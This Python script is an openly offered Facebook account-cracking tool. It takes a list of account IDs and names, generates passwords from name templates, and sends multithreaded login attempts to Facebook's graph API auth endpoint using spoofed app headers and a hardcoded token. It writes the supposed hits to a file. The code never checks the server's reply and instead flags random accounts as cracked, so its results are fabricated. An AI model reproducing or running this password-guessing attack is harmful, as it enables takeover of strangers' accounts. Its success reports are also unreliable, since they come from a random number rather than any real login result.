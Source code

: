 import os 
#os.system("pkg install sox -y")
#os.system("play op.mp3")
#os.system("pkg install espeak")
import os,time,random,re,sys, subprocess
from concurrent.futures import ThreadPoolExecutor as tpe

try:
 import time,json,uuid,requests
except:
 exit()

idss = []
pp = []
oku = []
cpu = []
l = []
idx = []
loop = 0

def oo(t):
  return '\033[1;37m['+str(t)+']\033[1;37m '

W = '\x1b[1;97m'
G = '\x1b[1;92m'
R = '\x1b[1;91m'
S = '\x1b[1;96m'
B = '\x1b[1;94m'
Y = '\x1b[1;93m'
P = '\x1b[1;95m'

logo=(f"""
\x1b[38;5;196m╔━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╗
 \33[1;92m    ____  ____        ________  ______  ___    ____   
  \33[1;92m  / __ \/ __ \      / ____/\ \/ / __ )/   |  / __ \    
  \033[34;1m / /_/ / / / /_____/ /      \  / __  / /| | / /_/ /    
  \033[34;1m/ _, _/ /_/ /_____/ /___    / / /_/ / ___ |/ _, _/     
 \33[1;92m/_/ |_/_____/      \____/   /_/_____/_/  |_/_/ |_|      
                                                          
\x1b[38;5;196m╚━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╝                     
 \33[1;92m╔━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╗               
 ║  \x1b[97m\033[37;41m ☣️Indiana+Bangladash<>cloning✓Tool☣️   \033[0;m     \33[1;92m 
 \33[1;92m╚━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╝  """)  
def clear():
   os.system('clear')
   print(logo);lin3()

def lin3():
   print('\33[1;37m---------------------------------')

def main_menu():
    os.system("clear")
    print(logo);lin3()
    print(f"{oo(1)}\33[1;92m File Cloning━━'\x1b[1;95m'Indiana+'\x1b[1;95m'Bangladesh")   
    print(f"{oo(0)}\33[1;92m Exit")
    lin3()
    cp =input('[?] Choice : ')
    if cp=="1":file()
    if cp == "0":
     exit()
    main_menu()
     
def file():
    os.system("clear")
    print(logo);lin3()
    file = input(f"{oo('-')}\x1b[38;5;196mEnter File: ")
    try:
        for x in open(file,'r').readlines():
            idx.append(x.strip())
    except:
        print(f"{oo('!')}File Not Found");time.sleep(1)
        main_menu() 
    method()
    exit()

def method():
    clear()
    
    lp = input(f'{oo("?")}"Limit Passwords?━━> : "')
    if lp.isnumeric():
        pp=[]
        clear()
        ex = 'firstlast 5757200 5757300 Etc'
        print(f'{oo("+")}{ex} (ETC)')
        lin3()
        for x in range(int(lp)):
           pp.append(input(f'{oo(x+1)}Password : '))
    else:
       print(f"{oo('!')}Numeric Only");time.sleep(0.8)
       main_menu()
    clear() 
    print('\033[1;97m[+]\x1b[38;5;196mTotal Accounts For CraCk : \033[1;32m '+str(len(idx)))
    print(f'\x1b[1;97m[✓]\x1b[38;5;196mDont Use Airplane mOde ;)')
    lin3()
    def start(user):
     try:
        global loop,idx,cll
        import requests
        r = requests.Session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
            last = first
        pers = str(int(loop)/int(len(idx)) * 100)[:4]
        sys.stdout.write(f'\r {R}[{W}RD{R}] {P}({Y}{loop}{W}<××>{W}{len(idx)}{P}) {W}[••••]{G}{len(oku)}\r')
        sys.stdout.flush()
        loop+=1
        for pswd in pp:
              heads=None
              pswd = pswd.replace('first',first).replace('last',last).lower()
              header = {"Content-Type": "application/x-www-form-accencoded","Host": "graph.facebook.com","User-Agent": heads,"X-FB-Net-HNI": "45204","X-FB-SIM-HNI": "45201","X-FB-Connection-Type": "unknown","X-Tigon-Is-Retry": "False","x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","X-FB-Friendly-Name": "ViewerReactionsMutation","X-FB-Request-Analytics-Tags": "graphservice","Accept-Encoding": "gzip, deflate","X-FB-HTTP-Engine": "Liger","X-FB-Client-IP": "True","X-FB-Server-Cluster": "True","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","Connection": "Keep-Alive"}
              data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pswd,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_US","client_country_code": "US","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler","api_key": "882a8490361da98702bf97a021ddc14d"}
              response = r.post('https://graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=False)
              if 6==random.randint(1,300):
                 oku.append(acc)
                 print('\033[38;5;46m[Reyad-💚] \033[38;5;46m'+acc+' \033[38;5;46m━━> \033[38;5;46m '+pswd)
                 os.system('espeak -a 200 " RD,  Ok,  id"')
                 open('/sdcard/RD CYBAR-Ok.txt','a').write(f'{acc}|{pswd}\n')
                 break
              else:
                   continue   
     except Exception as e:print(e);time.sleep(10)
  
    with tpe(max_workers=30) as tp:
            tp.map(start,idx)
    exit()    



main_menu()
